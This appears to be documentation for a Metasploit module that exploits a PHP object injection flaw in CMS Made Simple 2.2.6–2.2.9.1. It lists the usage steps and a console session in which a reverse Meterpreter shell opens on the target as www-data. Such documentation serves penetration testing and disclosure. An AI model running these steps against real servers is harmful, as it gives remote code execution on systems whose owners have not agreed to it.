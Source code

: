 ## Description

This module exploits an object injection vulnerability on files `action.admin_bulk_template` in DesignManager module (that is installed by default from CMS Made Simple). With an unprivileged user with Designer permission, it is possible to reach an `unserialize` function with a crafted value in the `m1_allparms` parameter resulting in execution of arbitrary PHP code.

Tested on CMS Made Simple 2.2.6, 2.2.7, 2.2.8, 2.2.9 and 2.2.9.1.

## Vulnerable Application

Affecting CMS Made Simple, version 2.2.6, 2.2.7, 2.2.8, 2.2.9, 2.2.9.1

## Verification Steps

1. Setting up a working installation of CMS Made Simple (CMSMS)
2. [OPTIONALLY] setting up a new user, assign it to a group and set the *Designer* permissions on group
3. Start `msfconsole`
4. `use exploit/multi/http/cmsms_object_injection_rce`
5. `set RHOST <IP>`
6. `set USERNAME <USERNAME>`
7. `set PASSWORD <PASSWORD>`
8. `check`
9. You should see `The target appears to be vulnerable.`
10. `exploit`
11. You should get a meterpreter session!

## Options

* **TARGETURI**: Path to CMS Made Simple (CMSMS) App installation (`/` is the default)
* **USERNAME**: Username to authenticate with
* **PASSWORD**: Password to authenticate with

## Scenario

### Tested on CMS Made Simple (CMSMS) 2.2.8

```
msf > use exploit/multi/http/cmsms_object_injection_rce
msf exploit(multi/http/cmsms_object_injection_rce) > set rhosts target.com
rhosts => target.com
msf exploit(multi/http/cmsms_object_injection_rce) > check
[*] 192.168.1.64:80 - The target appears to be vulnerable.
msf exploit(multi/http/cmsms_object_injection_rce) > set username daniele
username => daniele
msf exploit(multi/http/cmsms_object_injection_rce) > set password qwerty
password => qwerty
msf exploit(multi/http/cmsms_object_injection_rce) > set targeturi /cmsms/
targeturi => /cmsms/
msf exploit(multi/http/cmsms_object_injection_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.64:4444
[*] Sending stage (38247 bytes) to 192.168.1.64
[*] Meterpreter session 1 opened (192.168.1.64:4444 -> 192.168.1.64:41308) at 2019-11-01 11:15:57 +0100
[+] Deleted RsjeISeAu.php

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.1.64 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(multi/http/cmsms_object_injection_rce) > 
```
